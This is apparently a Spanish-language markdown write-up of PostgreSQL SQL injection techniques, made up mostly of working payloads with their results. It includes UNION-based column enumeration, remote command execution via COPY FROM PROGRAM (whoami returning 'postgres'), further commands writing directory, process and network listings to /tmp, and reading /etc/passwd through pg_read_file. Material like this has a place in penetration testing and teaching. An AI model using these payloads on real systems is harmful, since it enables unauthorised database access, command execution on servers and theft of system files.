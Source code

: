 ### 📄 Enumeración de Columnas
```sql
' UNION SELECT 999,column_name,data_type,'users_cols',CURRENT_TIMESTAMP FROM information_schema.columns WHERE table_name='users' -- 
```

### ✅ Resultados PostgreSQL
- **Motor**: PostgreSQL 13.21
- **Esquema**: `public`
- **Tablas**: `users`, `products`
- **Características**: Soporte completo para stacked queries
- **Nota**: Las tablas temporales no persisten entre consultas separadas

### 🚨 Remote Code Execution (RCE)
```sql
'; DROP TABLE IF EXISTS temp_whoami; CREATE TEMP TABLE temp_whoami (content TEXT); COPY temp_whoami FROM PROGRAM 'whoami'; SELECT * FROM temp_whoami; --
```

#### Técnica RCE: COPY FROM PROGRAM
- **Usuario PostgreSQL**: `postgres`
- **Método**: Tabla temporal + COPY FROM PROGRAM
- **Comando ejecutado**: `whoami`
- **Resultado obtenido**: `postgres`

#### Payload Explicado:
1. **DROP TABLE IF EXISTS**: Elimina tabla temporal si existe
2. **CREATE TEMP TABLE**: Crea tabla temporal para capturar output
3. **COPY FROM PROGRAM**: Ejecuta comando del sistema operativo
4. **SELECT**: Muestra el resultado del comando ejecutado

#### Otros Comandos RCE Posibles:
```sql
-- Explorar sistema
'; COPY (SELECT '') TO PROGRAM 'ls -la / > /tmp/files.txt'; --

-- Información de procesos
'; COPY (SELECT '') TO PROGRAM 'ps aux > /tmp/processes.txt'; --

-- Información de red
'; COPY (SELECT '') TO PROGRAM 'netstat -tulpn > /tmp/network.txt'; --
```

### 📁 Lectura de Archivos del Sistema
```sql
' UNION SELECT '999',pg_read_file('/etc/passwd'),'test','test','2025-01-01 00:00:00'::timestamp --
```

#### Técnica: pg_read_file()
- **Función**: `pg_read_file(filename)`
- **Requisito**: Casting explícito de tipos para UNION
- **Archivos leídos**: `/etc/passwd`, `/etc/hosts`, `/etc/os-release`
- **Limitación**: Requiere tipos exactos en UNION SELECT
